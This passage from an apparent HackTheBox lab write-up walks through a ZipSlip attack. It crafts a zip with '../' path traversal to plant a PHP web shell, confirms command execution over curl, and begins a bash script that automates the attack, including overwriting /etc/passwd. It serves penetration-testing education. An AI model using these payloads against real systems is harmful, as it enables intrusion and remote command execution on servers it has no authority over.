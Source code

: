 Now I’ll add it to a zip file, but with a lot of `../` to ensure that I get to the system root. Remember, Linux will ignore attempts to change to a parent directory from `/`, so `/../../../` is the same as `/`:

```

root@kali# zip mal.zip ../../../../../../var/www/html/cmd.php
  adding: ../../../../../../var/www/html/cmd.php (stored 0%)

```

I can check and make sure it stored correctly using `unzip -l` to list the contents:

```

root@kali# unzip -l ~/hackthebox/ghoul-10.10.10.101/mal.zip
Archive:  /root/hackthebox/ghoul-10.10.10.101/mal.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       35  2019-05-18 15:58   ../../../../../../var/www/html/cmd.php
---------                     -------
       35                     1 file

```

Now I’ll upload it to the site, and check, and my page is there on the port 80 site:

```

root@kali# curl http://10.10.10.101/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Script

I wrote a script to perform ZipSlip for me:

```

#!/bin/bash

function usage {
    echo "Usage: $0 [out_zip] [file] [desired path] <number of ../>"
    echo "  Number of ../ will be 8 if not given"
    echo "  desired path must be absolute"
    echo "  Ex: $0 evil.zip evil_passwd /etc/passwd 5"
    echo -e "\n$message"
    exit 1
}

if [ "$#" -lt 3 -o "$#" -gt 4 ]; then
    usage
fi;

if [ ! -r $2 ]; then
    message="$2 does not exist. Please check path to file."
    usage
fi;

if [[ ! $3 == /* ]]; then
    message="[desired path] must be absolute, starting with /"
    usage
fi;

# Set variables
outfile=$(realpath $1)
file=$2
```